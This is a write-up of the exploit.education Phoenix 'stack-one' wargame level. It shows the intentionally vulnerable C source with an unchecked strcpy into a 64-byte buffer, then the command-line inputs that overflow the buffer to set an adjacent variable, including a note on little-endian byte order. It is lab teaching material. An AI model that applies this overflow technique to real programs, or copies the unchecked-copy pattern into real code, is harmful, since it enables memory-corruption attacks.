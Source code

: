 ## Stack One
This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

## Source Code
```c
/*
 * phoenix/stack-one, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x496c5962
 *
 * Did you hear about the kid napping at the local school?
 * It's okay, they woke up.
 *
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  if (argc < 2) {
    errx(1, "specify an argument, to be copied into the \"buffer\"");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, argv[1]);

  if (locals.changeme == 0x496c5962) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n",
        locals.changeme);
  }

  exit(0);
}
```

## Challenge
The aim is to change the contents of the changeme variable to 0x496c5962

## Solution
Just like in `stack-zero`:
* We need to change the value of `locals.changeme`
* We have a vulnerable function (`strcpy()`) acting on `locals.buffer`

This time we want a specific value in `locals.changeme` = `0x496c5962` and our input is passed through the program's arguments.

### The Plan
`strcpy()` does not receive a length of chars to write, instead it copies from a source buffer to a dest buffer until it encounters a terminating null byte (it includes the byte).

It allows us to overflow from `locals.buffer` to `locals.changeme`.

### Breaking it
```console
user@phoenix-amd64:~$ /opt/phoenix/amd64/stack-one $(python -c "print 'a'*64 + '\x49\x6c\x59\x62'")
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x62596c49, we want 0x496c5962
```
Byte order is important, the value interpreted for `changeme` hints this system is `little-endian` - meaning the LSB (least-significant-byte) is first in memory.

![](/images/stack-1/0.png)
> Notice endianness only affects the layout of multi-byte representations like integers and some string encodings (like `UTF-16`).

We can verify this using the program `lscpu`, it displays CPU architecture information, among it is byte order.
```console
user@phoenix-amd64:~$ lscpu | grep "Byte Order"
Byte Order:            Little Endian
```

That's why our buffer representing a `32bit` integer was interpreted as `0x62596c49`.

Let's write it to memory in `little-endian` representation.
```console
user@phoenix-amd64:~$ /opt/phoenix/amd64/stack-one $(python -c "print 'a'*64 + '\x62\x59\x6c\x49'")
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```
🥳

